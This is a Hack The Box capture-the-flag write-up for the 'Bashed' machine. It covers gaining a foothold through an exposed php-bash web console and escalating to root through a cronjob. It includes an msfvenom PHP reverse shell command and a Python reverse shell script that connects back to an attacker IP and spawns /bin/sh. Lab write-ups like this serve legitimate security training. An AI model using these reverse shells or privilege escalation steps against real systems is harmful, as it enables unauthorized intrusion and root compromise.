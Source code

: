 ```yaml
---
tags:
  - php
  - cronjob
---
```

# HTB: Bashed

***Overview**: Bashed is an easy rated HTB machine that exploits a web facing php-bash console to gain compromised access and then exploits a cronjob running to gain a reverse shell as the root user.*
## Scanning and Enumeration

- So conducting a port scan and also a service scan, we can see that that we have an Apache server running on port 80

![](assets/Bashed_assets/Pasted%20image%2020231112203648.png)

- So navigating to the web server, we are brought to this

![](assets/Bashed_assets/Pasted%20image%2020231112202640.png)

- So conducting a directory scan using FFUF, we are brought to the following

![](assets/Bashed_assets/Pasted%20image%2020231112204345.png)

- as we can see above there is a directory dev, so navigating to it we are brought to what looks like a console, we can run ls and view the files on the server

![](assets/Bashed_assets/Pasted%20image%2020231112204428.png)

## Exploitation and Foothold

- So first we will generate a reverse shell PHP payload using msfvenom

```shell
msfvenom -p php/reverse_php lhost=10.10.14.7 lport=4444 -f raw > rev_shell.php
```

- then we can retrieve that payload to the server  and make it executable

![](assets/Bashed_assets/Pasted%20image%2020231112205909.png)

- then we can execute the payload with the command

```shell
php rev_shell.php
```

- and we get a reverse meterpreter shell

![](assets/Bashed_assets/Pasted%20image%2020231112205933.png)

- So we can retrieve the user flag

![](assets/Bashed_assets/Pasted%20image%2020231112210102.png)
## Post Exploitation: Privilege Escalation

- so we can view our passwd file and we'll see that er also have other users arrexel and scriptmanager

![](assets/Bashed_assets/Pasted%20image%2020231112210221.png)

- if we run our `sudo -l` command, we will see that we can execute any command as scriptmanager using sudo

![](assets/Bashed_assets/Pasted%20image%2020231112210304.png)

- so we can get a shell by running

```shell
sudo -u scriptmanager bash -i
```

![](assets/Bashed_assets/Pasted%20image%2020231112215553.png)

- we have access as scriptmanager, we can see that we have a directory scripts in the root directory and we have ownership over that directory. We can also view it and we can see we have access to a test.py script and a test.txt file, and what the test.py script is doing is it is open a file and then write that content in it

![](assets/Bashed_assets/Pasted%20image%2020231112215851.png)

- After looking at the time of execution or hen it was last accessed, we decided to conclude that it was probably a cronjob that was running that executes all the scripts in the scripts directory
- so to test this, we created a script, example.py and what it does is to open a file as well and write in text into the file like test.py

![](assets/Bashed_assets/Pasted%20image%2020231112220958.png)

- after doing this and waiting a couple minutes we saw that the example.txt file was created and we can also see the timing and notice that the file was actually created as root and this is because the cronjob was running as root

![](assets/Bashed_assets/Pasted%20image%2020231112220936.png)

 ![](assets/Bashed_assets/Pasted%20image%2020231112221024.png)

- so to get a reverse shell as root, lets create a python script with the following content and name it exploit.py

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.7",4443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

```

- we can tell that the script has been run from when the test.txt file was created/modified last

![](assets/Bashed_assets/Pasted%20image%2020231112222919.png)

- In our netcat listener, we then obtain a shell as root

![](assets/Bashed_assets/Pasted%20image%2020231112223004.png)

- now we can view the root.txt file

![](assets/Bashed_assets/Pasted%20image%2020231112223211.png)

- and if we verify, we can see that yes there was a crontab running and it was executing all python scripts in that directory

![](assets/Bashed_assets/Pasted%20image%2020231112223445.png)